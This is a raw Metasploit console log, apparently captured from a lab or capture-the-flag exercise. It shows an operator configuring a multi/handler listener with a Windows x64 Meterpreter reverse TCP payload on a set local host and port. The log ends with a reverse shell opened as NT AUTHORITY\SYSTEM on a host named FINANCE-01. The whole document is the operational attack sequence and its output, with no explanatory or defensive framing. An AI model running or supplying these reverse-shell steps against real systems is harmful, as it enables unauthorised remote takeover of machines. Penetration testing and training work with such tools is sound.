 ```
                            /
                           *
                  +                       *

                                       ^
####      __     __     __          #######         __     __     __        ####
####    /    \ /    \ /    \      ###########     /    \ /    \ /    \      ####
################################################################################
################################################################################
# WAVE 5 ######## SCORE 31337 ################################## HIGH FFFFFFFF #
################################################################################
                                                           https://metasploit.com


       =[ metasploit v6.2.25-dev                          ]
+ -- --=[ 2264 exploits - 1189 auxiliary - 404 post       ]
+ -- --=[ 951 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Writing a custom module? After editing your 
module, why not try the reload command
Metasploit Documentation: https://docs.metasploit.com/

msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.8.19.103
lhost => 10.8.19.103
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.8.19.103:4444 
msf6 exploit(multi/handler) > jobs

Jobs
====

  Id  Name                    Payload                              Payload opts
  --  ----                    -------                              ------------
  0   Exploit: multi/handler  windows/x64/meterpreter/reverse_tcp  tcp://10.8.19.103:4444

msf6 exploit(multi/handler) > 
[*] Sending stage (200774 bytes) to 10.10.66.59
[*] Meterpreter session 1 opened (10.8.19.103:4444 -> 10.10.66.59:58280) at 2022-11-15 16:06:34 -0500

msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information                       Connection
  --  ----  ----                     -----------                       ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ FINANCE-01  10.8.19.103:4444 -> 10.10.66.59:5828
                                                                       0 (10.10.66.59)

msf6 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...
```